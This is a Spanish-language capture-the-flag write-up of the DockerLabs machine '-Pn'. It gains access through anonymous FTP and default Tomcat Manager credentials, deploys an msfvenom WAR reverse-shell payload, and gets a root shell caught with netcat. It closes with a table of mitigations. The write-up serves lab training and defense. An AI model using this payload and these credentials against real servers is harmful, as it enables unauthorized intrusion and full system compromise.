


# -Pn — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio donde se accederá con unas credenciales al panel interno de Tomcat, para después hacer intrusión al servidor.

## Attack chain

**Nmap → FTP Anonymous Login → Credential Hint Discovery (tomcat.txt) → Tomcat Manager Access (Default Credentials) → WAR Payload Generation (msfvenom) → Malicious Application Deployment → Reverse Shell → Root Access**

### 1. Analisis y escaneo del objetivo.

Arrancamos con un escaneo completo de puertos con `nmap`:

```bash 
                                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pn]
└─$ nmap -Pn -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-26 17:36 -0300
Nmap scan report for chocolatelovers.dl (172.17.0.2)
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19  2024 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
MAC Address: EE:98:EA:DC:6C:3F (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
                                                                                          
```
Dos puertos abiertos:

21/FTP (vsftpd 3.0.5) con login anónimo habilitado.
8080/HTTP corriendo Apache Tomcat 9.0.88.

Ingresamos al servidor `Tomcat` y tenemos lo siguiente, continuamos con la enumaracion al servicio `FTP` 



## 2. Enumeración

Como el FTP permite login anónimo, nos conectamos y listamos el contenido disponible, que incluía el archivo `tomcat.txt`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pn]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:mariano): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43203|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19  2024 tomcat.txt
226 Directory send OK.
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||7644|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************|    74       94.96 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (61.76 KiB/s)
ftp> bye
221 Goodbye.
                                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pn]
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...
                                
```
El archivo no contiene credenciales en sí, sino una pista: alguien "perdió la contraseña" del servidor Tomcat. Esto apunta directamente al Tomcat Manager, donde probamos las credenciales por defecto (las que trae Tomcat de fábrica si nunca se cambiaron tras la instalación), y conseguimos acceso al panel de administración en http://172.17.0.2:8080/manager/html.

## 3. Explotación

Antes de llegar a las credenciales, probamos primero con el módulo de Metasploit para fuerza bruta/login de Tomcat Manager (`auxiliary/scanner/http/tomcat_mgr_login`), pero no tuvo éxito. Buscando en la web las credenciales por defecto conocidas de Tomcat, encontramos el par **usuario `tomcat` / contraseña `s3cr3t`**, con el cual logramos acceder al panel de administración.

Con acceso al Tomcat Manager, el siguiente paso es generar un archivo `.war` malicioso con `msfvenom`, ya que el Manager permite desplegar aplicaciones web — y Tomcat ejecuta cualquier `.jsp` dentro del WAR con los permisos del propio servicio.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```
Antes de subirlo, nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 4444
```

Subimos `shell.war` desde la sección de **deploy** del Manager. Una vez desplegado, lo ejecutamos haciendo clic directamente en la aplicación listada (vía `curl` no llegó a disparar la ejecución del JSP, por lo que el acceso manual desde el navegador fue lo que funcionó).



Al ejecutarse, el JSP malicioso abre la conexión reversa hacia nuestro listener:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pn]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 44886
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios FTP y Apache Tomcat. Al revisar el servidor FTP, se descubrió que permitía el acceso anónimo y contenía el archivo `tomcat.txt`, que proporcionaba una pista sobre las credenciales del servidor Tomcat.

Posteriormente, se accedió al **Tomcat Manager** utilizando las credenciales `tomcat:s3cr3t`. Desde el panel de administración, se desplegó un archivo `.war` malicioso generado con **msfvenom**, lo que permitió establecer una reverse shell y obtener acceso directamente como **root**, sin necesidad de realizar una escalada de privilegios adicional.

En conclusión, la máquina **-Pn** demuestra cómo el acceso anónimo a servicios FTP, las credenciales débiles o predeterminadas y la exposición de un panel de administración pueden permitir comprometer completamente un servidor.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Acceso anónimo al FTP** | Permite acceder a archivos del servidor sin autenticación. | Deshabilitar el acceso anónimo y restringir los permisos de lectura. |
| **Credenciales predeterminadas en Tomcat** | Facilitan el acceso no autorizado al panel de administración. | Cambiar las credenciales predeterminadas y utilizar contraseñas robustas. |
| **Exposición del Tomcat Manager** | Permite administrar y desplegar aplicaciones en el servidor. | Restringir el acceso al panel y permitirlo únicamente a usuarios autorizados. |
| **Despliegue de un archivo WAR malicioso** | Permite ejecutar código en el servidor y obtener acceso al sistema. | Limitar los permisos de despliegue y validar los archivos y usuarios autorizados. |
| **Ejecución de comandos como root** | Permite comprometer completamente el sistema. | Ejecutar los servicios con privilegios mínimos y evitar que aplicaciones web funcionen como `root`. |

## Recomendaciones generales

- Deshabilitar el acceso anónimo al FTP cuando no sea necesario.
- Cambiar las credenciales predeterminadas y utilizar contraseñas robustas.
- Restringir el acceso al panel de administración de Tomcat.
- Limitar quién puede desplegar aplicaciones `.war`.
- Ejecutar los servicios con los privilegios mínimos necesarios.
- Mantener Tomcat y sus componentes actualizados.
